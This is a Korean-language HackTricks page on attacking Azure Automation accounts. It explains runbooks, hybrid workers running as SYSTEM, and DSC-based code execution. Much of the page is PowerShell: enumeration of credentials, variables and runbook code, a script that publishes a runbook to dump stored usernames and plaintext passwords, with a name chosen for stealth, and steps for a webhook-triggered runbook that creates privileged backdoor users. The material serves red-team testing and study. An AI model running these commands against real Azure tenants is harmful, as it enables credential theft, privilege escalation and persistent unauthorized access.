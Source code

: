 # Az - 자동화 계정

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되기를 원하거나 HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 **PR을 제출하여** 여러분의 해킹 기법을 공유하세요.

</details>

## 기본 정보

[문서에서 찾아보기:](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation은 클라우드 기반 자동화, 운영 체제 업데이트 및 구성 서비스를 제공하여 Azure 및 비 Azure 환경에서 일관된 관리를 지원합니다. 프로세스 자동화, 구성 관리, 업데이트 관리, 공유 기능 및 이종 기능이 포함됩니다.

이는 Azure의 "**예약된 작업**"으로, Azure 환경을 **관리**, 확인 및 구성하기 위해 작업(동작 또는 스크립트)을 실행할 수 있게 해줍니다.

### 실행 계정

**실행 계정**을 사용하면 자체 서명된 인증서로 Azure AD **응용 프로그램**을 생성하고, **서비스 주체**를 생성하며, **현재 구독**의 계정에 **기여자** 역할을 할당합니다(많은 권한).\
Microsoft는 자동화 계정에 **관리 ID**를 사용하는 것을 권장합니다.

{% hint style="warning" %}
이는 **2023년 9월 30일에 제거되고 관리 ID로 변경**될 예정입니다.
{% endhint %}

## Runbooks 및 작업

**Runbooks**를 사용하면 **임의의 PowerShell** 코드를 실행할 수 있습니다. 이는 **공격자가** 연결된 주체의 권한을 도용하는 데 사용될 수 있습니다.\
**Runbooks**의 **코드**에서는 자격 증명과 같은 **민감한 정보**도 찾을 수 있습니다.

**작업**을 **읽을 수 있다면**, 실행의 **출력**(민감한 정보의 가능성)을 포함하므로 읽어보세요.

`자동화 계정`으로 이동 --> `<선택한 자동화 계정>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### Hybrid Worker

Runbook은 Azure 내부의 **컨테이너** 또는 **Hybrid Worker**(비 Azure 기계)에서 실행될 수 있습니다.\
**Log Analytics Agent**가 VM에 배포되어 하이브리드 워커로 등록됩니다.\
하이브리드 워커 작업은 Windows에서 **SYSTEM**으로, Linux에서 **nxautomation** 계정으로 실행됩니다.\
각 하이브리드 워커는 **하이브리드 워커 그룹**에 등록됩니다.

따라서 **Windows Hybrid Worker**에서 **Runbook**을 실행할 수 있다면 외부 기계에서 **System**으로 **임의의 명령**을 실행할 수 있습니다(좋은 피벗 기법).

## 구성 상태 구성 (SC) 침해

[문서에서 찾아보기:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **상태 구성**은 Azure 구성 관리 서비스로, 클라우드 또는 온-프레미스 데이터 센터의 노드에 대한 PowerShell Desired State Configuration (DSC) [구성](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)을 작성, 관리 및 컴파일할 수 있게 해줍니다. 이 서비스는 [DSC 리소스](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)를 가져오고, 대상 노드에 구성을 할당하며, 모두 클라우드에서 수행합니다. Azure 포털에서 Azure Automation 상태 구성에 액세스하려면 **구성 관리** 아래의 **상태 구성 (DSC)**를 선택하세요.

이러한 구성에서 **민감한 정보**를 찾을 수 있습니다.

### RCE

SC를 남용하여 관리되는 기계에서 임의의 스크립트를 실행할 수 있습니다.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 열거

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 런북 생성

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### 실행 북을 사용하여 자동화 계정에 정의된 자격 증명 및 변수 유출하기

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
동일한 작업을 수행하여 기존의 Run Book을 수정하거나 웹 콘솔에서 수행할 수도 있습니다.
{% endhint %}

### 자동화된 고도의 권한을 가진 사용자 생성 설정 단계

#### 1. 자동화 계정 초기화
- **동작 필요:** 새로운 자동화 계정을 생성합니다.
- **구체적인 설정:** "Azure Run As 계정 생성"이 활성화되어 있는지 확인합니다.

#### 2. Runbook 가져오기 및 설정
- **소스:** [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst)에서 샘플 Runbook을 다운로드합니다.
- **동작 필요:**
- Runbook을 자동화 계정에 가져옵니다.
- 실행 가능하도록 Runbook을 게시합니다.
- 외부 트리거를 활성화하기 위해 Runbook에 웹훅을 연결합니다.

#### 3. AzureAD 모듈 구성
- **동작 필요:** AzureAD 모듈을 자동화 계정에 추가합니다.
- **추가 단계:** 모든 Azure Automation 모듈이 최신 버전으로 업데이트되었는지 확인합니다.

#### 4. 권한 할당
- **할당할 역할:**
- 사용자 관리자
- 구독 소유자
- **대상:** 필요한 권한을 위해 이러한 역할을 자동화 계정에 할당합니다.

#### 5. 액세스 손실 가능성 인식
- **참고:** 이러한 자동화 구성은 구독 제어를 잃을 수 있음을 인식해야 합니다.

#### 6. 사용자 생성 트리거
- POST 요청을 보내어 웹훅을 트리거하여 새로운 사용자를 생성합니다.
- 제공된 PowerShell 스크립트를 사용하되, `$uri`를 실제 웹훅 URL로 대체하고 `$AccountInfo`를 원하는 사용자 이름과 비밀번호로 업데이트합니다.
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
